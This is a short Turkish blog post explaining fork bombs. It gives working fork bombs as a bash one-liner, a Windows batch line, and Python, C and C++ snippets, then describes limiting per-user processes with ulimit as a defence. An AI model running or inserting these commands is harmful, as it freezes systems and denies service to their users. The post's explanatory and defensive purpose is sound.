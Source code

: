 ```yaml
---
title: "Fork Bomb Nedir?"
date: "2022-11-23"
excerpt: "Fork Bomb, bir işletim sistemindeki işlemciyi yormak için kullanılan bir saldırı yöntemidir. Ne kadar güçlü bir işlemciniz olursa olsun sonuç kaçınılmazdır."
cover_image: "/blog/Fork-Bomb-Nedir/cover.jpg"
author:
  name: "Muhammet Emin Akalan"
  picture: "https://github.com/05akalan57.png"
---
```


Fork Bomb, bir işletim sistemindeki işlemciyi yormak ve kaynakları tüketmek için kullanılan bir saldırı yöntemidir. Ne kadar güçlü bir işlemciniz olursa olsun sonuç kaçınılmazdır.

## Peki Bu Saldırı Yöntemini Nasıl Yapabiliriz?

Öncelikle Linux işletim sisteminde komut satırını açıp. Aşağıdaki komutu yazıyoruz.

```bash
:(){ :|:& };:
```

Peki bu saldırı sadece Linux işletim sisteminde mi çalışıyor. Hayır, saldırı sadece Linux işletim sisteminde değil, windows işletim sisteminde de çalışmaktadır. Aşağıdaki komutu windows işletim sisteminde çalıştırırsanız saldırı başlayacaktır.

```batch
%0|%0
```

> **Uyarı:** Bu komutu çalıştırdıktan kısa bir süre sonra işletim sisteminizin donmasına ve işlem yapılamaz hale gelmesine sebep olacaktır. Bu yüzden komutu çalıştırmadan önce sisteminizde önemli bir işlem açık olmadığından emin olun.

<video src="/blog/Fork-Bomb-Nedir/incredibles-2.webm" muted autoPlay loop />

## Diğer Programlama Dillerinde Fork Bomb

Yukarda bahsettiğimiz komutlar Linux özelinde **bash** ve windows özelinde **batch** komutlarıdır.

Peki diğer programlama dillerinde Fork Bomb nasıl yapılır?

### Python

```python
import os

while 1:
  os.fork()
```

### C

```c
#include <unistd.h>

int main() {
  while(1) fork();
}
```

### C++

```cpp
#include <cstdlib>

int main(int argc, char **argv) {
  while (1) system(argv[0]);
  return 0;
}
```

Diğer dillerde de kullanımını merak ediyorsanız [buradan](https://github.com/aaronryank/fork-bomb) inceleyebilirsiniz.

## Peki Bu Saldırı Yöntemini Nasıl Engelleyebiliriz?

Bu saldırı yöntemini engellemek için bir çok yöntem bulunmaktadır. Bunlardan bir tanesi kullanıcı bazlı işlem limiti ayarlamaktır.

Örnek vermek gerekirse Muhammet Emin Akalan kullanıcısının işlem limiti 1000 olarak ayarlanmış olsun. Bu durumda saldırı başladıktan kısa bir süre sonra limit aşıldığı için saldırı duracaktır.

### İşlem Limiti Ayarlamak

İşlem limiti ayarlamak için aşağıdaki komutu kullanabilirsiniz.

```bash
ulimit -u 1000
```

Bu komutu yazdıktan sonra işlem limiti 1000 olarak ayarlanmış olacaktır.
